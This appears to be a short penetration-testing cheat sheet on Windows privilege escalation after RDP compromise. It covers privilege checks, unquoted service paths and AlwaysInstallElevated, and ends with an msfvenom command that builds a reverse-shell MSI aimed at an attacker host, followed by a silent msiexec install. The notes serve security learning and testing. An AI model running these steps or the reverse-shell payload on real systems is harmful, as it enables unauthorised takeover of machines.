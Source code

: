 ## Privilege Escalation

Escalate privileges on compromised RDP systems

Check privileges

> [!example]-
>
> ```sh
> whoami /all
> ```
> ```sh
> whoami /priv
> ```

Check for unquoted service paths

> [!info]-
>
> Windows can interpret unquoted service path components loosely,
> letting local attacker place a malicious executable
> in a higher-priority folder to run with service's privileges
> (*often `SYSTEM`*)


> [!example]-
>
> ```sh
> wmic service get name,pathname,startmode | findstr /i auto | findstr /i /v """
> ```

AlwaysInstallElevated check

> [!info]-
>
> Check whether the `AlwaysInstallElevated` policy is enabled
> for machine (`HKLM`) and user (`HKCU`) —
> if both are set to `1`, non-elevated MSI installs
> can run with `SYSTEM` privileges

> [!example]-
>
> ```sh
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
> ```
> ```sh
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
> ```

Exploit (*if enabled*)

> [!example]-
>
> 1. Build a malicious installer with [[msfvenom]]
>
> ```sh
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker> LPORT=<port> -f msi > installer.msi
> ```
>
> 2. Install silently
>
> ```sh
> msiexec /quiet /qn /i installer.msi
> ```
